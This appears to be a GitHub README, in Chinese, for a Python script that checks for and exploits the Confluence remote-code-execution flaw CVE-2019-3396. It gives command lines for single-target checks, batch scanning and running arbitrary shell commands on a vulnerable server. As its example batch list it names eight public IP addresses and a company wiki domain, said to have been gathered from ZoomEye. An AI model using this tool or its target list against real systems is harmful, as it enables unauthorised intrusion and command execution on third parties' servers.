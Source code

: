 # CVE-2019-3396
Confluence RCE漏洞检测脚本
使用方法：

【1】单url检测，url格式请看示例

```shell
python Confluence_rce_cve-2019-3396.py http://192.168.246.131:8090
```

![](https://github.com/mntn0x/CVE-2019-3396/blob/master/%E5%8D%95url.png)

【2】批量检测，url格式请看示例

从zoomeye上找的前8个confluence的网站，保存在本地

```
http://107.198.101.46:8090
https://100.26.183.111:8443
http://76.94.243.179:9443
http://107.190.131.234:8090
http://107.23.65.244:8090
http://107.213.10.237:8090
http://107.190.131.237:8090
https://wiki.glooko.com
```

运行命令:

```shell
python Confluence_rce_cve-2019-3396.py -f confluence.txt
```

![](https://github.com/mntn0x/CVE-2019-3396/blob/master/%E6%89%B9%E9%87%8F%E6%A3%80%E6%B5%8B.png)

批量检测，最后会输出有漏洞的域名，并且会将输出默认保存在`confluence_output.txt`文件，也可以通过参数`-o output_file`来指定输出文件位置。

【3】rce

在通过第一步poc_check 之后，可以调用rce函数来执行命令：

```shell
python Confluence_rce_cve-2019-3396.py http://192.168.246.131:8090 --command "ls -l"
```

![](https://github.com/mntn0x/CVE-2019-3396/blob/master/rce.png)
